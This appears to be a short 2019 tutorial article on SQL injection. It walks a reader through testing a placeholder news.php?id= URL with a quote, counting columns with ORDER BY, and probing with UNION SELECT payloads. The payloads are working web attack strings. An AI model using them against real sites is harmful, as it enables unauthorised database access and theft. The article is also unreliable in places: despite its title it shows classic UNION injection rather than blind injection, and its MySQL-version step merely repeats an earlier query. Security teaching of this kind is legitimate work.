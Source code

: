 ```yaml
---
title: BLIND SQL INJECTION (THE HARDER PART)
category: Article
date: 2019-2-19
author: 読み上げ
comment: true
---
```


# BLIND SQL INJECTION (THE HARDER PART)

> Blind injection is a little more complicated than the classic injection but it can be with the following methodology. We need first to check if the website is vulnerable or not.

## So let’s start with some action.

1. CHECK FOR VULNERABILITY.

Let’s say that we have some site like this.
http://server/news.php?id=5 

Now to test if is vulrnable we add to the end of url’ (quote), and that would be:
http://server/news.php?id=5' 

So if we get some error like
~~~
“You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right etc…” or something similar that means is vulrnable to SQL injection.
~~~

2. FIND THE NUMBER OF COLUMNS

To find number of columns we use statement ORDER BY (tells database how to order the result) so how to use it? Well just incrementing the number until we get an error.
~~~bash
http://server/news.php?id=5 order by 1/* <-- no error
http://server/news.php?id=5 order by 2/* <-- no error
http://server/news.php?id=5 order by 3/* <-- no error
http://server/news.php?id=5 order by 4/* <-- error (We get message like this Unknown column '4' in 'order clause' or something like that)
~~~
That means that the it has 3 columns, cause we got an error on 4.

3. CHECK FOR UNION FUNCTION

> With union we can select more data in one SQL statement. So we have:
~~~bash
http://server/news.php?id=5 union all select 1,2,3/* (We already found that number of columns are 3 in section 2). )
~~~
If we see some numbers on screen i.e 1 or 2 or 3 then the UNION Works.

4. CHECK FOR MYSQL VERSION
~~~bash
http://server/news.php?id=5 union all select 1,2,3/*
~~~
> NOTE: If /* not working or you get some error, then try “–“ it’s a comment and it’s important for our query to work properly.
